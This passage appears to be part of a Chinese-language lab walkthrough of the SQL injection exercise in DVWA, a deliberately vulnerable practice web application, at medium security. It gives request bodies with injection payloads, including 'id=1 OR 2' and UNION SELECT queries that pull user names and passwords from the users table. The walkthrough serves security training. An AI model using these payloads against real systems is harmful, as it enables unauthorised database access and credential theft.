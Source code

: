 ```json
{
	"id": "1 OR 2",
	"Submit": "Submit"
}
```

因為之前已經知道欄位名稱了，所以直接選取即可

Request Body:

```sql
id=1 union select user_id, first_name, last_name from users;&Submit=Submit
```

![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2058.png)

### Done

Request Body:

```sql
id=1 union select last_name,password from users;&Submit=Submit
```
